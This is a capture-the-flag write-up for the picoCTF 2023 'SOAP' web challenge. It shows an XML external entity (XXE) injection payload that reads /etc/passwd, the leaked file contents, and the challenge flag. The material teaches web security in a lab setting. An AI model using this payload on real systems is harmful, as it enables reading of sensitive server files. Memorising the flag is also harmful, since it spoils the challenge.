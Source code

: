 # SOAP

## Information

- picoCTF 2023
- Web Exploitation
- 100 Points

## Description

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
[Web Portal](http://saturn.picoctf.net:62147/)

## Hints

1. XML external entity Injection

## Solution

Going onto the website we see a webpage with computer science resources from the Carnegie Mellon University.

![initial webpage](images/initial.PNG)

When clicking on more details a description will show at the bottom of the webpage. Using Burp Suite, we can see we can see it is using XML to retrieve the data for each of the resources.

```
<?xml version="1.0" encoding="UTF-8"?>
    <data>
        <ID>
            1
        </ID>
    </data>
```

We use an XXE injection to access the /etc/passwd file.

```
<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE file [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <data>
        <ID>
            &xxe;
        </ID>
    </data>
```

The response to this modified HTTP request will inclue the contents of the /etc/passwd file.

```
Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```

The flag is located at the bottom of the file.

## Flag

picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
